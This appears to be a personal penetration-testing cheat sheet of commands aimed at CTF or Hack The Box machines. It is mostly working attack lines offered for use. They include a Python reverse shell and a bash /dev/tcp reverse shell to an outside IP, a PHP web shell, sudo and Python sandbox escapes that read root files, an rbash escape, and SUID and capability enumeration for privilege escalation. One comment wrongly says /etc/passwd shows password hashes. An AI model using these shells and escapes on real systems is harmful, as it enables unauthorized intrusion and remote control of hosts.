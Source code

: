 # Python Shell
```
python3 -c 'import pty; pty.spawn("/bin/bash")'
```
#used to gain root access in some systems.
```
sudo python3.5 -c ‘import os; os.system(“/bin/sh”)’
```
#command used to open up a reverse shell from the browser.
```
python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.0.0.137",1234));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn("/bin/sh")'
```
python escape characters:
```
__builtins__.__dict__['__IMPORT__'.lower()]('OS'.lower()).__dict__['SYSTEM'.lower()]('cat /root/root.txt')
```
#can be used to find real host name.
```
curl -H 'Host: http://172.16.226.6' "http://172.16.226.6/'"
```
to exploit a cronjob
https://gtfobins.github.io/gtfobins/tar/

Shows the password hashes on a linux system
```
cat /etc/passwd
```
Shows the groups on a linux system
```
cat /etc/group
```
```
ls -lh /var/mail/
```
```
dpkg -l
```
Check for Suid binaries
```
find / -user root -perm -4000 -exec ls -ldb {} \; 2>/dev/null
```
```
 find / -perm /4000 -type f -exec ls -ld {} \; 2>/dev/null
```
Lists capabilities of binaries
```
getcap -r /
```
Shows user group files
```
find / -type f -group users 2>/dev/null
```
Simple php shell:
```
<?php system($_GET['0xdf']); ?>
```
ssh tunnel:
```
ssh -L 5901:127.0.0.1:5901 charix@10.10.10.84
```
list processes and open ports:
```
ps -aux

netstat -an
```
To escape rbash:
```
ssh mindy@10.10.10.51 -t bash
```
```
nmap --script smb-vuln* -p 445 10.10.10.4
```
```
ls /usr/share/nmap/scripts/ | grep smb | grep vuln
```
Bash Reverse Shell:
```
bash -c 'bash -i >& /dev/tcp/192.168.45.5/1234 0>&1'
```
```
sudo apt install exploitdb -y
```
